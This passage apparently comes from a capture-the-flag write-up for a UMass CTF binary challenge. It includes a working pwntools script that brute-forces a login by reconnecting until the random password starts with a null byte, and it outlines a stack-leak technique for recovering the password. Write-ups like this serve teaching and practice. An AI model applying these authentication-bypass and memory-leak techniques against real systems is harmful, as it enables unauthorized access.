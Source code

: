 Now we just need a nullbyte at the beginning of the random password. It's a
simple bruteforce that shouldn't take too much time because we only pray for a
single byte to equal zero. There's my solve.py script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./last_minute_pwn_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r)
    else:
        r = remote("last_minute_pwn.pwn.umasscybersec.org", 7293)

    return r


def main():
    while True:
        r = conn()
        r.sendline(b'2')
        r.sendline(b'')
        r.recvuntil(b'Login ')
        a = r.recv(1)
        if a == b'f':
            r.close()
            continue
        else:
            r.interactive()


if __name__ == "__main__":
    main()
```

...aaaand we get the flag: `UMASSCTF{todo:_think_of_a_creative_flag}` .

Now about the intended solution. I haven't tested it myself but I spoke with
the admin/author about it. By answering neither `y` nor `n` to the question if
you're ready, you can get a stack leak. According to him the intended solution
was to recursively call the game through the restart option to shift the stack
frame over the area where the password was written to the stack and then leak
it using the "Print Answers" option from the second menu. The password appears
on the stack after using the second option from the first menu.
